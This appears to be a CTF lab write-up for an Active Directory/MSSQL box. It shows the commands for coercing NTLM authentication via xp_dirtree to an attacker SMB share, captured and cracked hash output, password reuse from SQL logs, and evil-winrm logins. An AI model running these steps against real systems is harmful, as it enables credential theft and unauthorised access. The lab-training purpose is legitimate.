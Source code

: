     Check DNS for zone transfer / brute force sub-domains.
    Enumerate LDAP, with and without the creds.
    Use the creds to run Bloodhound.
    Use the creds to Kerberoast.
    Brute force usernames / passwords over Kerberos.

# Shell as sql_svc
### xp_cmdshell
failed

### Get Net-NTLMv2
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack

```bash
sudo tcpdump -i tun0

impacket-smbserver as . -smb2support

SQL (PublicUser  guest@master)> xp_dirtree \\10.10.16.12\evil
or EXEC MASTER.sys.xp_dirtree '\\10.10.14.14\test', 1, 1 using a UNC (Universal Naming Convention) path
subdirectory   depth   file   
------------   -----   ----

[*] Incoming connection (10.129.228.253,51551)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:581434152c1048c3f50698dae019f5ea:010100000000000080be6136df18da018036a36c313527ea00000000010010006f004200610058007000590058005200030010006f00420061005800700059005800520002001000560063004400470056004d006f00500004001000560063004400470056004d006f0050000700080080be6136df18da010600040002000000080030003000000000000000000000000030000025c594a40bc5fc8ef296b23ce6485673076bf40aaca49741584420d2333195830a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e0034000000000000000000:REGGIE1234ronnie
```

`evil-winrm -i $IP -u sql_svc -p REGGIE1234ronnie`

Get it from `c:\sqlserver\logs`

```cmd
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```

# Shell as Ryan.Cooper
`evil-winrm -i $IP -u Ryan.Cooper -p NuclearMosquito3`
